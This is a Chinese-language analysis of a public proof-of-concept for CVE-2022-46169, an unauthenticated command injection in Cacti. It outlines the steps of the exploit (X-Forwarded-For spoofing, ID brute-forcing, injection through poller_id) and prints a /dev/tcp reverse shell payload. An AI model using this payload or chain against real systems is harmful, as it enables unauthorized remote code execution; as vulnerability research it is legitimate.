 ## CVE-2022-46169-Cacti-命令注入

**漏洞编号:** CVE-2022-46169

**漏洞类型:** 命令注入

**影响应用:** Cacti

**危害等级:** 高危，允许未经身份验证的远程代码执行

**影响版本:** < 1.2.23

**利用条件:** 目标系统运行受影响的Cacti版本，并且存在`POLLER_ACTION_SCRIPT_PHP`类型的poller_item。

**POC 可用性:** 是

**投毒风险:** 5%

## 详情

CVE-2022-46169 是 Cacti 1.2.23 之前的版本中存在的一个未经身份验证的命令注入漏洞。攻击者可以通过操纵 HTTP 头 `X-Forwarded-For` 绕过身份验证，并利用 `remote_agent.php` 脚本中的漏洞执行任意系统命令。

**漏洞利用方式：**

1.  **身份验证绕过:** 通过设置 `X-Forwarded-For` 头为 Cacti 服务器的 IP 地址，欺骗 `get_client_addr` 函数，绕过身份验证。
2.  **查找可利用的 poller_item:**  通过暴力破解 `host_id` 和 `local_data_id`，找到 `action` 为 `POLLER_ACTION_SCRIPT_PHP` (值为 2)的 `poller_item`。
3.  **命令注入:** 将恶意命令注入到 `poller_id` 参数中，通过 `proc_open` 函数执行。

**POC代码分析：**

*   `cacti_exploit.py` 脚本自动化了漏洞利用过程。
*   首先尝试访问 `/remote_agent.php?action=polldata` 或 `/cacti/remote_agent.php?action=polldata` 来确定正确的URL。
*   然后，脚本使用 `X-Forwarded-For` 头绕过身份验证。
*   接下来，脚本暴力破解 `host_id` 和 `local_data_ids` 来寻找合适的 `poller_item`。
*   最后，脚本构造包含反向 shell 命令的 URL，并发送请求来利用命令注入漏洞。

**有效性：**

根据漏洞描述、搜索结果以及提供的 POC 代码，此漏洞是有效的。搜索结果表明该漏洞已被积极利用。

**投毒风险：**

虽然该脚本的主要目的是利用 CVE-2022-46169 漏洞，但存在轻微的投毒风险。具体体现在：

*   **硬编码参数:** 脚本中存在一些硬编码的参数，例如 `poller_id=1`，`host_id=1`，`local_data_ids[]=1`, `words = ["cpu","cmd.php","polling_time","apache"]`。这些值在不同的 Cacti 部署中可能不同，如果用户不加修改直接使用，可能导致利用失败。这可以被视为一种隐蔽的“陷阱”，虽然不是恶意的后门，但也可能误导用户。
*   **反向Shell Payload:** 用户如果直接使用payload `sh -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1`需要确保目标机器上存在sh.如果没有可能需要更换payload.如果不熟悉的用户可能利用失败.
*   **依赖第三方库:** 脚本依赖 `requests` 和 `urllib3` 库。如果用户从不可信的源安装这些库，可能会引入恶意代码。

尽管如此，该脚本没有发现明显的恶意代码（如删除文件、上传恶意文件等），因此投毒的概率较低，约为5%。主要风险在于使用不当或未能正确配置脚本导致利用失败。


**项目地址:** [N1arut/CVE-2022-46169_POC](https://github.com/N1arut/CVE-2022-46169_POC)

**漏洞详情:** [CVE-2022-46169](https://nvd.nist.gov/vuln/detail/CVE-2022-46169)